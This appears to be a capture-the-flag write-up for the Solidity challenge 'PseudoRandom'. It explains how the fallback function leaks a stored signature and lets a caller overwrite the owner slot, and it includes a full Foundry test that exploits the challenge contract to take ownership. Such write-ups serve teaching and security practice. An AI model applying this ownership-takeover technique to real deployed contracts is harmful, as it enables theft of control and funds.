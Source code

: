 # PseudoRandom

## Objective of CTF

Become the Owner of the contract.

## Analysis

The PseudoRandom contract only changes **owner** variable in its fallback function. In order to change the contract owner, we need to obtain the correct value "sig" as "msg.sig" first, which is generated in the **constructor** and then stored somewhere in the contract.

In its fallback function, we notice that we can load any storage location of contract when we call the fallback function with **msg.sig** is "0x3bc5de30".

First we load the correct "sig" value from contract somewhere with **msg.sig** 0x3bc5de30. After we obtain it, we have the right to change the variable "owner". But how to set the contract owner to the target one?

In the following code snippet:

```code=solidity
assembly {
    sstore(owner.slot, calldataload(0x24))
}
```

we know that the owner slot will store the 32 bytes data from the call data provided to the contract function call (ranging from index 37th byte to 68th byte in this case)

:warning: Be careful here, in the assembly block we actually store 32 bytes data in the owner slot. But variable owner is a address type which is a 20 bytes data type. In this situation, the last 20 bytes would be the data stores in the variable owner.

Therefore, the call data provided to the contract function call would consist of the following 4 parts:

- 4 bytes hex string for msg.sig
- arbitrary 32 bytes hex string
- 32 bytes hex string that would be stored in the owner slot
  - a arbitrary 12 bytes hex string (this part would not store in the owner variable)
  - the target address we want to store in the owner variable (20 bytes)

After we provide this call data, the contract owner will be the target address.

## PoC test case

```code=solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import "../src/PseudoRandom.sol";

contract PseudoRandomTest is Test {
    string private BSC_RPC = "https://rpc.ankr.com/bsc"; // 56
    string private POLY_RPC = "https://rpc.ankr.com/polygon"; // 137
    string private FANTOM_RPC = "https://rpc.ankr.com/fantom"; // 250
    string private ARB_RPC = "https://rpc.ankr.com/arbitrum"; // 42161
    string private OPT_RPC = "https://rpc.ankr.com/optimism"; // 10
    string private GNOSIS_RPC = "https://rpc.ankr.com/gnosis"; // 100

    address private addr;

    function setUp() external {
        vm.createSelectFork(BSC_RPC);
    }

    function test() external {
        string memory rpc = new string(32);
        assembly {
            // network selection
            let _rpc := sload(
                add(mod(xor(number(), timestamp()), 0x06), BSC_RPC.slot)
            )
            mstore(rpc, shr(0x01, and(_rpc, 0xff)))
            mstore(add(rpc, 0x20), and(_rpc, not(0xff)))
        }

        addr = makeAddr(rpc);

        vm.createSelectFork(rpc);

        vm.startPrank(addr, addr);
        address instance = address(new PseudoRandom());

        // the solution
        uint256 location;

        assembly {
            location := add(chainid(), sload(addr.slot))
        }

        // get the correct sig stored in the contract
        (, bytes memory data) = instance.call(abi.encodePacked(hex"3bc5de30", location));
        (, data) = instance.call(abi.encodePacked(hex"3bc5de30", data));

        // the data is a 32 bytes hex string with the correct sig in first 4 bytes
        // then we add a arbitrary 16(= 4 + 12) bytes in front of the target addr
        (, data) = instance.call(abi.encodePacked(data, hex"12341234123412341234123412341234", addr));

        assertEq(PseudoRandom(instance).owner(), addr);
    }
}
```
